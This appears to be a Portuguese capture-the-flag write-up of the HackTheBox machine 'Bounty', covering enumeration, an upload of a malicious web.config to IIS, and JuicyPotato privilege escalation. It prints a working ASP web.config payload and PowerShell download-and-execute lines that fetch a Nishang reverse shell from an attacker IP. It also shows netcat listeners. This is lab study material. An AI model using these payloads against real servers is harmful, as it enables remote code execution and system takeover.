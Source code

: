 Bounty
========================

# Enumeration

    sudo nmap_enum bounty.htb | tee nmap_output.txt

    nikto -host http://bounty.htb -T x 6

![qownnotes-media-uVJoUL](../../../media/qownnotes-media-uVJoUL.png)


    dirb http://bounty.htb
    
    firefox http://bounty.htb http://bounty.htb/robots.txt
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.93
    
![qownnotes-media-eRoTdE](../../../media/qownnotes-media-eRoTdE.png)


![qownnotes-media-fiZxfk](../../../media/qownnotes-media-fiZxfk.png)

    gobuster dir -u http://bounty.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 16 -o "tcp_port_protocol_gobuster_shellshock.txt"

Aqui é o pulo do gato!!!

O lance era ter colocado como parâmetro o -x .asp,.aspx,.txt, dado que dessta forma, alcançamos uma página de fille upload:

    gobuster dir -u http://bounty.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .asp,.aspx,.txt -t 16 -o "tcp_port_protocol_gobuster_shellshock.txt"

![qownnotes-media-eGzzTE](../../../media/qownnotes-media-eGzzTE.png)

![qownnotes-media-DZXPbX](../../../media/qownnotes-media-DZXPbX.png)

NEsse caso, tentatmos ubir alguns arquivos e vimos que duas extensões passavam , tais como .config e .png

    firefox http://bounty.htb/uploadedfiles/nome_arq.png

Então prosseguimos para parte de exploração, dado que era possível acessar o arquivo do servidor direto do browser:

# Exploitation

Depois de várias pesquisas e testes de posssíveis extensões que o servidor aceitava, notei no write-up da máquina que o arquivo web.config pode executar comandos no servidor a depender do código dentro dele:

    └─$ cat web.config                                                                                                  
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
       <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
    </configuration>
    <!--
    <%
    Response.Write("-"&"->")
    
    Function GetCommandOutput(command)
        Set shell = CreateObject("WScript.Shell")
            Set exec = shell.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/shell.ps1')")
        GetCommandOutput = exec.StdOut.ReadAll
    End Function
    
    GetCommandOutput("cmd /c " + Request("cmd"))
    %>
    -->

Esse foi o expoit utilizado. Note que tive que baixar [deste](https://github.com/samratashok/nishang) repositório e ajustar o código dentro do arquivo Invoke-PowershellTcp.ps1. Adicionei a seguinte linha no código:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 8081

renomeei esse cara para shell.ps1 para baixar corretamente na máquina alvo:

    mv Invoke-PowerShellTcp.ps1 shell.ps1
    python -m http.server 80
    
 Em outro terminal:
 
     nc -nlvp 8081
     firefox http://bounty.htb/uploadedfiles/web.config

![qownnotes-media-hPBFxS](../../../media/qownnotes-media-hPBFxS.png)

# Privilege Escalation

executei o winpeas sem sucesso e executei também o windows exploit suggester, no entanto, verifiiquei o primeiiro vetor interessante de ser veriifcado:

    whoami /priv

![qownnotes-media-zakGJD](../../../media/qownnotes-media-zakGJD.png)

Primeiro testei com PrintSpoofer, mas o que funcionou mesmo foi o JuicyPotato:
<https://github.com/ohpe/juicy-potato/releases>

    wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
    
copiei esse cara para a máquina alvo

    copy \\10.10.14.4\smb\JuicyPotato.exe jp.exe
    
 Fiz um novo payload utilizando uma reverse shell em uma porta diferente e mudei o payload de .ps1 para bat com o seguinte conteúdo:
 
     powershell -c iex (new-object net.webclient).downloadstring('http://10.10.14.4/shell.ps1')
     
mas dessa vez a última linha do código shell.ps1 estava assim:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 8082

Então, voltatndo na máquina da vítiima executei o seguinte comando:

     copy \\10.10.14.4\smb\shell.bat shell.bat
     ./jp.exe -t * -p shell.bat -l 4444
    
Na minha máquina eu preparei os payloads a serem executados:

    python -m http.server 80
    nc -nlvp 8082

![qownnotes-media-PwmUEc](../../../media/qownnotes-media-PwmUEc.png)

![qownnotes-media-WTQZOu](../../../media/qownnotes-media-WTQZOu.png)


![qownnotes-media-NhIpOJ](../../../media/qownnotes-media-NhIpOJ.png)

![qownnotes-media-PpFyiX](../../../media/qownnotes-media-PpFyiX.png)
